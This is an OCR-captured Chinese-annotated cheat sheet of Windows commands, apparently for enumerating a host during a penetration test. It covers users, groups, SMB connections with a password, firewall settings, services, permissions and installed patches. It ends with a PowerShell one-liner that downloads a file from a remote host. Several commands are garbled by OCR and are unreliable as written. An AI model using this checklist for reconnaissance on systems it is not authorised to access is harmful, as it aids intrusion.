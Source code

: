 ```
主机名

net user
列出用户

net user UserName
关于用户的信息

net use \SMBPATH Pa$$wOrd /u:UserName
连接SMB

net localgroup
列出所有组

net localgroup GROUP
关于指定组的信息

net view \127.0.0.1
会话打开到当前计算机

net session
开放给其他机器

netsh firewall show config
显示防火墙配置

DRIVERQUERY
列出安装的驱动

tasklist /sVc
列出服务任务

net start
列出启动的服务

dir /s foo
在目录中搜索包含指定字符的项

dir /s foo == bar
同上

SC query
列出所有服务

sc qc ServiceName
找到指定服务的路径

shutdown/r /t 0
立即重启

type file.txt
打印出内容

icacls ~C:\Example"
列出权限

wmic qfe get Caption,Description,HotFixID,InstalledOn
列出已安装的布丁

(New-Object
System.Nt.Webient).Dowlatiltttp://s/ile*."C:LocalPath")
利用ps远程下载文件到本地

```